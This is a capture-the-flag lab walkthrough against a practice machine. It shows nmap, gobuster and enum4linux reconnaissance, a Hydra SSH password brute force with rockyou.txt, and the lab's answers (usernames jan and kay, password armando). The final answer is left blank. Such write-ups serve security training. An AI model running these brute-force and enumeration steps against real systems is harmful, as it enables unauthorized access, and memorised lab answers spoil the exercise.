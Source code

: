 ### Find the services exposed by the machine
```BASH
sudo nmap -sV 10.10.26.17
```
![image](https://github.com/user-attachments/assets/c12abb48-bb66-4ff5-962a-397cdf2aab0a)

<span style="line-height:0.5;">&nbsp;</span>

### What is the name of the hidden directory on the web server(enter name without /)?
```BASH
gobuster dir -u "http://10.10.26.17/" -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 64
```
![image](https://github.com/user-attachments/assets/a6679aca-3502-417e-8011-9aee2b27c060)

<pre>development</pre>

<span style="line-height:0.5;">&nbsp;</span>

### User brute-forcing to find the username & password
From the nmap scan you can see that port 8080 is open. You can see that website runs on `Apache Tomcat/9.0.7`. Additionally url `manager/html` is avaiable.  

![image](https://github.com/user-attachments/assets/798851bc-dac7-4bc1-81b9-e39575c0290e)  

The fact that `http://10.10.26.17:8080/manager/html` prompts for authentication means the Tomcat Manager interface is enabled.

<span style="line-height:0.5;">&nbsp;</span>

Run enum4linux:
```BASH
enum4linux -a 10.10.26.17
```
![image](https://github.com/user-attachments/assets/6cb0e81f-98cb-4770-89ea-71451c420cb5)  

<span style="line-height:0.5;">&nbsp;</span>

Run Hydra:
```BASH
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.26.17 ssh
```

<span style="line-height:0.5;">&nbsp;</span>

What is the username? What is the password?
<pre>jan</pre>
<pre>armando</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What service do you use to access the server(answer in abbreviation in all caps)?
<pre>SSH</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the name of the other user you found(all lower case)?
<pre>kay</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the final password you obtain?
<pre>---</pre>
